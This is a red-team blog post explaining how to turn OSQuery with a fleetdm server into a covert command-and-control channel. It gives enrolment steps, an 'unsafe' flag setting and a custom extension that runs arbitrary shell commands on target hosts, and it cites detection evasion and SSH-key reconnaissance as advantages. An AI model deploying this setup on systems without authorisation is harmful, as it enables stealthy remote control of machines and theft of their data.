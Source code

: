 ```yaml
---
layout: post
title: Offensive OSQuery
categories: [general]
tags: [redteam, c2, devops, infra]
description: Diving into how a traditionally defensive tool OSQuery can be used to perform red team testing at scale.
---
```


## What is OSQuery
OSQuery is an open-source endpoint visibility tool created by Meta. It allows administrators to query hosts across their organization like they would a SQL database. An example from the [osquery site](https://osquery.readthedocs.io/en/stable/introduction/using-osqueryi/):
```SQL
$ osqueryi
osquery> SELECT DISTINCT
osquery> SELECT DISTINCT
    ...>   process.name,
    ...>   listening.port,
    ...>   process.pid
    ...> FROM processes AS process
    ...> JOIN listening_ports AS listening
    ...> ON process.pid = listening.pid
    ...> WHERE listening.address = '0.0.0.0';

+----------+-------+-------+
| name     | port  | pid   |
+----------+-------+-------+
| Spotify  | 57621 | 18666 |
| ARDAgent | 3283  | 482   |
+----------+-------+-------+
osquery>
```

OSQuery is commonly run with a centralized server that all the agents check-in to. While there isn't an official open-source OSQuery server a number of alternative servers exist like [Kollide](https://github.com/kolide) and [fleetdm](https://github.com/fleetdm/fleet) . For this blog we'll be using a cloud managed fleetdm instance given it's ease to setup.

## Why OSQuery is a good c2.
- Evasion - As a legitimate tool for systems administration and corporate security OSQuery isn't detected as malicious.
- Scale - Many c2 frameworks don't scale (some falling over irrecoverably at 50 callbacks a minute) or design their workflows for scale. As a tool designed to manage entire corporations OSQuery and it's servers are designed to operate at scale and help the user queue tasks at scale.
- Robust recon features - OSQuery supports a number of tables that you can query of of the box.
	- [crontab](https://osquery.io/schema/5.8.2/#crontab)
	- [curl](https://osquery.io/schema/5.8.2/#curl)
	- [drivers](drivers)
	- [file](https://osquery.io/schema/5.8.2/#file)
	- [logged_in_users](https://osquery.io/schema/5.8.2/#logged_in_users)
	- [user_ssh_keys](https://osquery.io/schema/5.8.2/#user_ssh_keys)

The downside to OSQuery out of the box is it doesn't support arbitrary command execution making executing new tools, or more complicated memory based tools like mimikatz challenging. To get around this limitation though we can load a custom extension into our OSQuery agent. In the next section we'll load a custom extension to execute arbitrary shell commands.

## How

1. Signup for a free trial of fleetdm
	1. https://fleetdm.com/try-fleet/register
	2. Setup an account and login.
2. Adding hosts
	1. Once logged in Click "Add hosts"
	2. Select your hosts OS
	3. Unselect include Fleet Desktop
	4. Copy the installer package onto the target host.
	5. Install the package
		1. You may have issues getting things to run I wasn't able to install it a service in my container and had to manually run it.

```bash
cat /etc/default/orbit
source /etc/default/orbit
/opt/orbit/bin/orbit/orbit --insecure --fleet-url $ORBIT_FLEET_URL --enroll-secret $ORBIT_ENROLL_SECRET --debug

ctrl-c to exit.
```

3. Build the extension
	1. `git clone https://github.com/hulto/osquery-exec.git`
	2. `cd osquery-exec`
	3. `go build -o exec.ext ./`
4. Install the `osquery-exec` plugin.
	1. Stop the running instance of orbit
	2. Fill out the `/opt/orbit/osquery.flags` file

```bash
--extensions_timeout=3
--extensions_interval=3
--allow_unsafe
```

		3. Upload our extension to the remote host `mkdir /test && cp /tmp/exec.ext /test/exec.ext`
		4. Add our extension to those that will be loaded
			1. `echo "/test/exec.ext" > /etc/osquery/extensions.load`
1. Restart the orbit agent
	1. `/opt/orbit/bin/orbit/orbit --insecure --fleet-url $ORBIT_FLEET_URL`
2. Execute commands 🥳

<figure class="aligncenter">
    <img src="/assets/png/osquery-cmdexec-whoami.png" />
    <figcaption>Figure 1. - OSQuery cmdexec results in fleetdm webui</figcaption>
</figure>

